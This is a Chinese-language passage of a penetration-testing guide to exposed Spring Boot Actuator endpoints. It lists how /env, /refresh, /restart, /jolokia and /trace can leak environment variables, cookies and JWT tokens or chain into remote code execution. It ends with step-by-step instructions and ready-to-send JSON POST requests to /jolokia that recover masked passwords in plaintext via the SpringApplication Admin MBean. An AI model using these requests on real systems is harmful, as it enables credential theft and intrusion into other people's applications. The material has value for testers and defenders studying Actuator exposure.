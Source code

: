 **重点关注**:

- /env、/actuator/env

GET 请求 /env 会直接泄露环境变量、内网地址、配置中的用户名等信息；当程序员的属性名命名不规范，例如 password 写成 psasword、pwd 时，会泄露密码明文；

同时有一定概率可以通过 POST 请求 /env 接口设置一些属性，间接触发相关 RCE 漏洞；同时有概率获得星号遮掩的密码、密钥等重要隐私信息的明文。

- /refresh、/actuator/refresh

POST 请求 /env 接口设置属性后，可同时配合 POST 请求 /refresh 接口刷新属性变量来触发相关 RCE 漏洞。

- /restart、/actuator/restart

暴露出此接口的情况较少；可以配合 POST请求 /env 接口设置属性后，再 POST 请求 /restart 接口重启应用来触发相关 RCE 漏洞。

- /jolokia、/actuator/jolokia

可以通过 /jolokia/list 接口寻找可以利用的 MBean，间接触发相关 RCE 漏洞、获得星号遮掩的重要隐私信息的明文等。

- /trace、/actuator/httptrace

一些 http 请求包访问跟踪信息，有可能在其中发现内网应用系统的一些请求信息详情；以及有效用户或管理员的 cookie、jwt token 等信息。

## 获取脱敏信息
访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

### jolokia获取脱敏信息

**利用条件**

- 目标网站存在 /jolokia 或 /actuator/jolokia 接口
- 目标使用了 jolokia-core 依赖（版本要求暂未知）

**利用方法**

1. 找到想要获取的属性名

GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

2. jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。

- 调用 `org.springframework.boot` Mbean

>实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x
```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x
```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
